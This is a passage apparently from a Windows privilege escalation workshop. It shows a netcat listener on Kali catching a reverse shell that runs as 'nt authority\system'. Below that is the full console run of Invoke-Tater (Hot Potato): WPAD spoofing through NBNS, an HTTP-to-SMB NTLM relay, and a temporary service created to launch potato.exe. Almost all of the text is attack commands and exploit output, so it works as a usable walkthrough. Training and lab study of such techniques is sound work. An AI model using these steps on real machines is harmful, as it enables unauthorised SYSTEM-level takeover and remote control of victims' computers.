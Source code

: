 ````
root@kali:~/LPEWorkshop# nc -lvnp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.22.6.43.
Ncat: Connection from 10.22.6.43:52753.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
````

And we see in our terminal the steps that were taken:
````
PS C:\Users\user\Downloads> Invoke-Tater -Trigger 1 -Command "C:\Users\user\Downloads\potato.exe"
2020-01-08T12:08:26 - Tater (Hot Potato Privilege Escalation) started
Local IP Address = 10.22.6.43
Spoofing Hostname = WPAD
Windows Defender Trigger Enabled
Real Time Console Output Enabled
Run Stop-Tater to stop Tater early
Use Get-Command -Noun Tater* to show available functions
Press any key to stop real time console output

2020-01-08T12:08:26 - Waiting for incoming HTTP connection
2020-01-08T12:08:26 - Flushing DNS resolver cache
2020-01-08T12:08:27 - Starting NBNS spoofer to resolve WPAD to 127.0.0.1
2020-01-08T12:08:35 - WPAD has been spoofed to 127.0.0.1
2020-01-08T12:08:35 - Running Windows Defender signature update
2020-01-08T12:08:37 - HTTP request for /wpad.dat received from 127.0.0.1
2020-01-08T12:08:41 - Attempting to redirect to http://localhost:80/gethashes and trigger relay
2020-01-08T12:08:41 - HTTP request for http://ds.download.windowsupdate.com/v11/2/windowsupdate/redir/v6-win7sp1-wuredir.cab?2001081908 received from 127.0.0.1
2020-01-08T12:08:45 - HTTP request for /GETHASHES received from 127.0.0.1
2020-01-08T12:08:46 - HTTP to SMB relay triggered by 127.0.0.1
2020-01-08T12:08:46 - Grabbing challenge for relay from 127.0.0.1
2020-01-08T12:08:46 - Received challenge 13B7858E7D232D4F for relay from 127.0.0.1
2020-01-08T12:08:46 - Providing challenge 13B7858E7D232D4F for relay to 127.0.0.1
2020-01-08T12:08:47 - Sending response for \ for relay to 127.0.0.1
2020-01-08T12:08:47 - HTTP to SMB relay authentication successful for \ on 127.0.0.1
2020-01-08T12:08:47 - SMB relay service GCAOIDVEOABQUCYYKJRT created on 127.0.0.1
2020-01-08T12:09:17 - Command likely executed on 127.0.0.1
2020-01-08T12:09:17 - SMB relay service GCAOIDVEOABQUCYYKJRT deleted on 127.0.0.1
2020-01-08T12:09:18 - Stopping HTTP listener
2020-01-08T12:09:21 - Tater was successful and has exited
PS C:\Users\user\Downloads> 
````
